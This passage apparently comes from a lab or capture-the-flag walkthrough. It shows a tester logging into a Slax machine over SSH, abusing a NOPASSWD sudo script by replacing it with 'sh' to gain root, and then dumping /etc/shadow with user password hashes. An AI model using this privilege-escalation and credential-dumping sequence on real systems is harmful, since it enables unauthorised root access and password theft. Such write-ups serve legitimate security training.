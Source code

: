 gdm:x:42:
shadow:x:43:
ftp:x:50:
apache:x:80:
messagebus:x:81:
haldaemon:x:82:
plugdev:x:83:root
power:x:84:
pop:x:90:pop
scanner:x:93:
nobody:x:98:nobody
nogroup:x:99:
users:x:100:ccoffee
console:x:101:
admin:x:102:ccoffee
{% endcodeblock %}

Right, ccoffee is in admin group. For other users it is not allowed to use sudo.

We check his competencies:
{% codeblock %}
root@kali32:~# ssh 192.168.1.120 -l ccoffee
ccoffee@192.168.1.120's password:
Linux 2.6.27.27.
ccoffee@slax:~$ sudo -l
User ccoffee may run the following commands on this host:
    (root) NOPASSWD: /home/ccoffee/scripts/getlogs.sh
{% endcodeblock %}

There is a script in his home directory that he can execute, unfortunately we
cannot read the content. Removing the script and creating a new one with the
content 'sh' gives root:
{% codeblock %}
ccoffee@slax:~/scripts$ sudo ./getlogs.sh
sh-3.1#

sh-3.1# cat /etc/shadow
root:$1$rxn0aycI$hsQIsFGccfDbCG5/1nfH91:16567:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
apache:*:9797:0:::::
messagebus:*:9797:0:::::
haldaemon:*:9797:0:::::
nobody:*:9797:0:::::
myajima:$1$60c/cucI$5j0aMHbj4jNDRAYhb4m3K0:16567:0:99999:7:::
lmartinez:$1$rMh/hucI$Pr6vOoriwdZPgphX0nSTa1:16567:0:99999:7:::
mbryan:$1$.di/mucI$oOj2Jz4nBoVxTqDo1im.X0:16567:0:99999:7:::
krenfro:$1$Hvj/rucI$Cg2UjwsziydtkBqypwdHp/:16567:0:99999:7:::